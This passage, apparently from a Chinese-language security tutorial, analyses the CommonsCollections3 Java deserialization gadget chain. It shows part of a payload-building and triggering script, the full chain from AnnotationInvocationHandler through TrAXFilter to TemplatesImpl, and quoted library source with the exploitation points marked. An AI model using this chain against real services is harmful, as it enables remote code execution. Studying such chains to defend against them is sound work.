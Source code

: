 ```java
        Map map1=(Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),LazyMap.class.getInterfaces(),invocationHandler);
        Object object=constructor.newInstance(Override.class,map1);

        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("test.out"));
        outputStream.writeObject(object);
        outputStream.close();

        ObjectInputStream inputStream=new ObjectInputStream(new FileInputStream("test.out"));
        inputStream.readObject();
    }
}
```

### Exp构造分析

CommonsCollections3是CommonsCollections1和CommonsCollections2的组合改造版。

涉及的新类有InstantiateTransformer和TrAXFilter。

#### 利用链展示

```java
AnnotationInvocationHandler.readObject()
   Map(Proxy).entrySet()
        AnnotationInvocationHandler.invoke()
            LazyMap.get()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()//1
                        InstantiateTransformer.transform()//2
                            TemplatesImpl.newTransformer()
```

前半部分是CommonsCollections1的LazyMap利用链，后半部分是CommonsCollections2的利用链。

#### TrAXFilter

在利用链注释1处会得到一个TrAXFilter类。

```java
    public TrAXFilter(Templates templates) throws TransformerConfigurationException {
        this._templates = templates;
        this._transformer = (TransformerImpl)templates.newTransformer();//1 漏洞利用点
        this._transformerHandler = new TransformerHandlerImpl(this._transformer);
        this._useServicesMechanism = this._transformer.useServicesMechnism();
    }
```

根据ChainedTransformer.transform()的源码得知，这个类会作为InstantiateTransformer.transform()的入参。

#### InstantiateTransformer

```java
    public Object transform(Object input) {
        try {
            if (!(input instanceof Class)) {
                throw new FunctorException("InstantiateTransformer: Input object was not an instanceof Class, it was a " + (input == null ? "null object" : input.getClass().getName()));
            } else {
                Constructor con = ((Class)input).getConstructor(this.iParamTypes);
                return con.newInstance(this.iArgs);//1 漏洞利用点
            }
        } catch (NoSuchMethodException var6) {
            throw new FunctorException("InstantiateTransformer: The constructor must exist and be public ");
        } catch (InstantiationException var7) {
            throw new FunctorException("InstantiateTransformer: InstantiationException", var7);
```